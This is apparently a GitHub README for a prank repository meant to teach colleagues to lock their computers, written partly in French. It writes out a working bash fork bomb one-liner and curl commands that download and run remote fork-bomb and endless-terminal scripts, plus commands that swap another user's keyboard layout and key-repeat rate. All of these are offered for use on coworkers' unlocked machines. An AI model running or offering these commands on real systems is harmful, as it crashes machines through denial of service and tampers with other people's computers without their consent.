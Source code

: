 # Lock-ton-pc
quelque script pour apprendre à ses collègues à fermer leur session.

Niveau de sévérité :
💚 : faible
💛 : moyen
❤️ : fort

## Forkbomb

Denial of service attack wherein a process continually replicates ifself to deplete available system recources, slowding down or crashing the system.

get the content and execute the script :

```
curl https://raw.githubusercontent.com/wagnerwave/Lock-ton-pc/master/forkbomb.sh > forkbomb.sh
chmod +x forkbomb.sh
./forkbomb.sh
```

or excute on a terminal :

```
:(){ :|:& };:

```

## Terminal Monster 💚

Opens terminal at infinity. [work with gnome-terminal]

```
curl https://raw.githubusercontent.com/wagnerwave/Lock-ton-pc/master/Terminal-Monster.sh > Terminal-Monster.sh
chmod +x Terminal-Monster.sh
./Terminal-Monster.sh
```

## Bépo cancer

Change your keyboard to bépo keyboard.

```
setxkbmap fr bepo
```
or :
```
 loadkeys fr-bepo
```

## Sanic Keyboard

Gotta go fast

```
xset r rate 1 220
```

